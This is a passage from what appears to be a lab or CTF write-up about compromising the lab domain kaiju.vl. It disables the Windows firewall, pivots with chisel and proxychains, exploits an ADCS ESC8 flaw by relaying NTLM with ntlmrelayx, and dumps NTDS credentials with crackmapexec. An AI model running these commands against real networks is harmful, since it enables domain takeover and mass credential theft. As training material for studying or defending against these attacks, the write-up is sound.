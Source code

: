 ```
Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
```

Now, lets copy chisel with `scp` and start it, then we can adjust our `proxychains` tool and setup a proxy to access the internal ports.

Upon the enumeration using the ADCS module from `nxc`, we can see that there is an enrollment server:

![](/assets/images/Pasted image 20240219162238.png)

We would want to see the vulnerable certificates now using `certipy`

```
$ proxychains certipy find -username clare.frost@kaiju.vl -hashes be167.. -vulnerable -stdout -dc-ip 10.10.213.165
```

![](/assets/images/Pasted image 20240219160939.png)

There is ESC8 vulnerability which we can exploit.

The next step is quite tricky, we need to redirect the traffic that comes to the machine that we are in `BERSRV200` to other port that we then should forward to our machine where we setup a relay towards the `BERSRV100` so that we can get the authenticating certificate that we use from `BERSRV105` towards `BERSRV100`, with that certificate we can then try to get TGT from the `BERSRV100` principal which in turn will retrieve us the NT hash.

To setup this we would need to do these following steps:
- On the `BERSRV200` machine use the https://github.com/jellever/StreamDivert to forward the traffic from 445 to 8445
- Forward the 8445 port on the `BERSRV200` machine towards your local machine
- Setup a `ntlmrelayx` with the following args: `proxychains ntlmrelayx -t http://BERSRV100.kaiju.vl/certsrv/certfnsh.asp -smb2support --adcs --template 'DomainController'`
- Transform the certificate from `b64` to `pfx` (simply decode it and save it to `pfx`)
- Use `proxychains certipy auth -pfx cert.pfx` to ask for TGT, to retrieve the NT hash

![](/assets/images/Pasted image 20240219141333.png)

![](/assets/images/Pasted image 20240219162140.png)


Then we should be able to dump the OS credentials with the retrieved hash for the user `BERSRV100$`

```
$ proxychains crackmapexec smb 10.10.213.165 -u 'BERSRV100$' -H '19ad5c18445fxxxxx' --ntds drsuapi
```

![](/assets/images/Pasted image 20240219162031.png)

And then we can use the administrator's hash to log in using `winrm` or similar.